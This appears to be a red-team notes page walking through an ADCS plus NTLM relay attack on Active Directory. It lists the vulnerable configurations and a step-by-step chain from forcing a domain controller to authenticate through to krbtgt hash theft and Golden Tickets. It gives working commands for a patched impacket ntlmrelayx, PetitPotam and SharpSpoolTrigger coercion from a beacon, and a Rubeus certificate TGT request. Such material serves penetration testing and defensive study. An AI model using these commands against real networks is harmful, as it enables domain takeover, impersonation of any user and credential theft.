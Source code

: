 ## Conditions
Below are some of the conditions making an AD environment vulnerable to ADCS + NTLM relay attack:

- ADCS is configured to allow NTLM authentication;
- NTLM authentication is not protected by EPA or SMB signing;
- ADCS is running either of these services:
    - Certificate Authority Web Enrollment    
    - Certificate Enrollment Web Service

## Overview

Below provides a high level overview of how the attack works:

1. Get a foothold in an AD network with a misconfigured ADCS instance;
2. Setup an NTLM relay listener on a box you control, so that incoming authentications are relayed to the misconfigured ADCS;
3. Force the target DC to authenticate (using PetitPotam or PrintSpooler trick) to the box running your NTLM relay;
4. Target DC attempts to authenticate to your NTLM relay;
5. NTLM relay receives the DC$ machine account authentication and relays it to the ADCS;
6. ADCS provides a certificate for the target DC$ computer account;
7. Use the target DC's computer account certificate to request its Kerberos TGT;
8. Use target DC's computer account TGT to perform [DCSync](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync) and pull the NTLM hash of `krbtgt`;
9. Use `krbtgt` NTLM hash to create [Golden Tickets](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-golden-tickets) that allow you to impersonate any domain user, including Domain Admin.


Install tools
```
git clone https://github.com/ExAndroidDev/impacket.git
cd impacket
git checkout ntlmrelayx-adcs-attack
```
```
apt install python3-venv
```
```
python3 -m venv impacket
source impacket/bin/activate
```
```
pip install .
```
On `WS01`, we can use a Windows LOLBIN `certutil.exe`, to find ADCS servers in the domain:
![[image 17.avif]]
start relay
```
examples/ntlmrelayx.py -t http://ca01/certsrv/certfnsh.asp -smb2support --adcs
```
From `WS01`, let's force the `DC01` to authenticate to our NTLM relay at 10.0.0.5 by executing PetitPotam
https://github.com/topotam/PetitPotam
```
.\PetitPotam.exe 10.0.0.5 dc01
```
You can also force it with SharpSpoolsTrigger
```
beacon> execute-assembly C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe 10.0.0.5 dc01
```
![[image 18.avif]]
On `WS01`, we can now use `rubeus` to request a Kerberos TGT for the `DC01$` computer account like so:

```
.\Rubeus.exe asktgt /outfile:kirbi /user:dc01$ /ptt /certificate:MIIRd[...]
```